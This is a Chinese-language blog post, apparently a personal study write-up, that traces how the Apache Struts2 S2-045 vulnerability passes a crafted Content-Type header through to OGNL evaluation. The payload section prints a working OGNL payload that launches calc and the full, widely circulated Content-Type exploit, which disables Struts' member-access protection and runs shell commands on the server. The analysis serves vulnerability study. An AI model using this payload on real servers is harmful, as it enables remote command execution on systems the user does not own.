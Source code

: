 ```yaml
---
layout: post
title: "s2-045漏洞解析"
---
```


#### 0x00 前言####

漏洞已经出来很长时间了，但是一直放着没有分析过，最近看到freebuf上的文章，所以也手痒马上来分析一波(主要是为了摸清触发的流程，以及payload如何构造的)，从以下2个思路进行分析

- 漏洞触发流程
- payload如何工作

调试使用的war包是地址为： https://archive.apache.org/dist/struts/2.5.1/struts-2.5.1-apps.zip (版本为struts2-2.5.1)

#### 0x01 漏洞触发流程 ####

我们先从入口出发，用户发起的请求会通过`WEB-INF/web.xml`中定义的过滤器

![s2-045]({{ '/images/201803/s2-045_1_1.png' | prepend: site.baseurl }})

`org.apache.struts2.dispatcher.filter.StrutsPrepareFilter`就是我们的入口，在`dofileter`中请求会进入`this.prepare.wrapRequest`(org.apache.struts2.dispatcher.PrepareOperations)

![s2-045]({{ '/images/201803/s2-045_1_2.png' | prepend: site.baseurl }})

接着请求会通过`this.dispatcher.wrapRequest`(org.apache.struts2.dispatcher.Dispatcher)开始分发我们的请求

![s2-045]({{ '/images/201803/s2-045_1_3.png' | prepend: site.baseurl }})

在这里会先获取用户的`content_type`(这是我们所能控制的),接着判断我们的`content-type`中是否包含"multipart/form-data",包含就会进入`jakarta`处理流程，接着会进入`MultiPartRequestWrapper`

![s2-045]({{ '/images/201803/s2-045_1_4.png' | prepend: site.baseurl }})

首先会进入`this.multi.parse`(org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest)解析我们的请求

![s2-045]({{ '/images/201803/s2-045_1_5.png' | prepend: site.baseurl }})

在该函数中会产生异常，通过`buildErrorMessage`进行错误信息解析

![s2-045]({{ '/images/201803/s2-045_1_6.png' | prepend: site.baseurl }})

该函数会返回`LocalizedTextUtil.findText`(com.opensymphony.xwork2.util.LocalizedTextUtil)(有些文章跟踪到这里就结束了)，此时函数的参数中`e.getMessage()`其中就包含我们的异常的Content-Type也就是我们的payload

![s2-045]({{ '/images/201803/s2-045_1_7.png' | prepend: site.baseurl }})

会调用原始的`findText`,参数`defaultMessage`包含着我们的`payload`

![s2-045]({{ '/images/201803/s2-045_1_8.png' | prepend: site.baseurl }})

调用`getDefaultMessage`函数

![s2-045]({{ '/images/201803/s2-045_1_9.png' | prepend: site.baseurl }})

最终我们来到了漏洞函数`TextParseUtil.translateVariables`,通过`buildMessageFormat`调用

![s2-045]({{ '/images/201803/s2-045_1_10.png' | prepend: site.baseurl }})

通过`parse.evaluate`进行`ognl`表达式的识别和执行

![s2-045]({{ '/images/201803/s2-045_1_11.png' | prepend: site.baseurl }})

最后再跟入，会发现调用哪个`evaluator.evaluate(var)`，这个就是执行ognl表达式的关键，我们的payload被正确识别出来在var变量中

![s2-045]({{ '/images/201803/s2-045_1_12.png' | prepend: site.baseurl }})

到这里我们的`payload`经历各种函数的调用来到了这里，最终触发漏洞达到命令执行

#### 0x02 payload是如何构造的 ####

虽然知道ognl表达式是在哪里执行的，但是没有接触过所以看到poc也不明白都是些什么，还好通过ide可以直接使用该接口，就尝试了一些语句的执行

![s2-045]({{ '/images/201803/s2-045_2_1.png' | prepend: site.baseurl }})

还可以使用括号(表示一个语句)和.(拼接)来执行多个语句

![s2-045]({{ '/images/201803/s2-045_2_2.png' | prepend: site.baseurl }})

测试到这里，就想看看能弹计算器么...

![s2-045]({{ '/images/201803/s2-045_2_3.png' | prepend: site.baseurl }})

结果悲催的发现失败了，后来才知道这个`SecurityMemberAccess`是struts2的安全管理器，就是防止执行系统命令，对非法字符进行了黑名单校验，通过freebuf的[文章](http://www.freebuf.com/vuls/165488.html)(有详细的poc分析，以及绕过的简单分析)了解到细节，有兴趣的可以去看看

最终就是通过`_memberAccess`利用`DefaultMemberAccess`对象覆盖`SecurityMemberAccess`对象

最后自己整理的直接执行的ognl表达式的payload(这个是在IDE里面直接执行的)

	(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='\"calc\"').(#cmds={'cmd.exe','/c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

最终成熟的`payload`为(也是网上流传最广的一个)

	Content-Type:"%{(#xxx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"pwd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=newjava.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"

#### 总结： ####

通过IDE很方便的动态调试struts2，清晰的跟踪整个漏洞的流程，了解了用户请求的基本流程以及命令为何执行，同时也了解了基本的ognl表达式，清楚的了解一些poc构造(不会看的很懵)。

ps:也是第一次分析，写的有点流水帐 :)

参考：

http://www.freebuf.com/vuls/165488.html
